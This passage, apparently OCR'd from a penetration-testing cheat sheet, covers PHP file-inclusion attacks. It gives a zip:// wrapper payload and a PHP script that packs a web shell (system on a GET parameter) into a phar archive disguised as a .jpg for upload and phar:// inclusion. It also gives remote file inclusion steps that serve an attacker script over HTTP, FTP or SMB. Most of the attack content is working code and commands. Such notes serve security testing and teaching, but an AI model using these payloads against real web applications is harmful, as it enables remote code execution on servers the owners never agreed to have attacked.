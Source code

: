        ```
       zip://[PATH]/shell.jpg%23shell.php&cmd=id
       ```

       `%23` is `#` in URL encoding

  - if `phar` is enabled and **images** can be uploaded:

    1. Create a shell.php file

       ```php
       <?php
       $phar = new Phar('shell.phar');
       $phar->startBuffering();
       $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
       $phar->setStub('<?php __HALT_COMPILER(); ?>');
       
       $phar->stopBuffering();
       ```

    2. Compile it in a phar file

       ```bash
       php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
       ```

    3. Upload shell.jpg (check upload location)

    4. Include it with phar wrapper

       ```
       phar://[PATH]/shell.jpg%2Fshell.txt&cmd=id
       ```

- **RFI**:

  To verify, try to include a URL (first a local one, but not the vulnerable page itself, since it could cause a loop), and see if we can get its content.

  `allow_url_include` has to be enabled, apart from SMB.

  1. Write a script in the language of the web application

  2. Host and include the script

     - http:

       ```bash
       sudo python3 -m http.server <LISTENING_PORT>	# 80 or 443
       ```

     - ftp:

       ```bash
       sudo python -m pyftpdlib -p 21
       ```

     - smb - doesn't require `allow_url_include`:

       ```
       smbserv
       ```
